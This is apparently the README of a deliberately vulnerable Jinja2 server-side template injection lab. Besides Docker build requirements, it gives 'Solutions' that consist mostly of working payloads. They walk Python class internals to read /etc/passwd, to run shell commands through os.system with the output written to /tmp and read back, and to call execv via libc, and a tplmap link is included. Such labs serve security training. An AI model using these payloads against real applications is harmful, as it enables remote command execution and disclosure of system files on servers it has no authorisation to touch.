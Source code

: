 


# Template Injection Jinja2

## Build instructions

Requirements:
 - Docker
 - Docker-compose

## Solutions

```
{{''.__class__.__mro__[2].__subclasses__()[40]("/etc/passwd","r").read() }}
```

```
[40]:  <type 'file'>
[59]: <class 'warnings.catch_warnings'>
WARNINGS.__init__.func_globals['linecache'].__dict__.values()[12] : <module 'os' from '/usr/lib/python2.7/os.pyc'>
```

Executing command and storing the result temporary in the temp folder:
```
{{ ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('id > /tmp/cmd') }}{{''.__class__.__mro__[2].__subclasses__()[40]("/tmp/cmd","r").read() }}
```

 - https://hexplo.it/escaping-the-csawctf-python-sandbox/

### Libc attempt

```
{{ self.__class__.__mro__[1].__subclasses__()[226]('libc-2.23.so').execv('/bin/touch','/tmp/1234') }}
```

### TPLMap (not working)

(Tool that is not working well on jinja2)
https://github.com/epinna/tplmap
